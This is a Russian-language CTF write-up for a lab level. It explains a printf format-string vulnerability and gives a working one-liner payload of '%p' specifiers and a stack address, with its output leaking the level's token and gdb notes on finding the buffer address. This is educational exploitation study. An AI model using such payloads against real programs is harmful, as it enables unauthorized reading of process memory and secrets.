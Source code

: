 ## Level02

В данной функции имеется незащищенный вызов `printf` с прочтенным пользовательским вводом в качестве форматной строки. Мы можем использовать его, чтобы прочитать буфер, в который ранее программа записала значение токена.

Нужно быть внимательным, так как данная программа скомпилирована для x86_64, а значит, адрес для `%s` может идти только в конце аргумента. Подробности [тут](https://tripoloski1337.github.io/ctf/2020/06/11/format-string-bug.html).

Итого,

```sh
> python -c "print  '%p'*37 + '%.500s' + '\x00\x00\x7f\xff\xff\xff\xe5\x60'[::-1] + '\n' + 'b'" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0(nil)0x620x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6e80x1f7ff9a080x62(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d(nil)0x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x70257025702570250x733030352e257025Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`???? does not have access!
```

Мы видим содержание пяти регистров `edi, esi, edx, ecx, r8d, r9d` (согласно Linux ABI для x86_64), за которыми следуют значения, записанные в стэк. В конце вывода находится искомый токен `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Чтобы найти адрес буфера на стэке, куда записан токен, мы воспользовались gdb. Согласно следующим инструкциям дизассемблера, мы понимаем, что буфер находится по адресу `rbp-0xa0`, что соответствует `0x00007fffffffe530` внутри дебаггера.

```
lea     rax, [rbp-0xa0 {var_a8}]
mov     rdx, qword [rbp-0x8 {var_10_1}]
mov     rcx, rdx
mov     edx, 0x29
mov     esi, 0x1
mov     rdi, rax {var_a8}
call    fread
```

Однако часто стэк, видимый изнутри gdb, сдвинут по сранению со стэком, имеющимся когда программа запускается вне дебаггера, из-за различий в переменных окружения. Мы сталкивавлись с этим на предыдущем уровне. Методом проб и ошибок мы находим, что буфер вне gdb находится по адресу `0x00007fffffffe560`.

 